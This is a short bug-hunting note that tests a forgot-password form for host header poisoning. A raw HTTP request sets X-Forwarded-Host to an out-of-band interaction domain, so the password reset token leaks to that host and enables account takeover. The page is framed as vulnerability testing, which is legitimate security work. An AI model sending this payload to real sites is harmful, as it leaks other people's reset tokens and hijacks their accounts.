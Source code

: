 **Step 1**

Click on Forgot Password

**Step 2**

Enter the email address of your account

**Step 3**

Add the `X-Forwarded-Host` header to the request with the `interactsh-client`.

```
POST /forgot-password HTTP/1.1 
Host: website.com
X-Forwarded-Host: cdshcndndhlqg0rrn9l0aqsxkbd9zgbmx.oast.site 

email=shelled@email.com
```

**Step 4**

Click on the reset link and if you receive a ping in your `interactsh-cleint` then the password reset token is being leaked and this is vulnerable to account takeover.
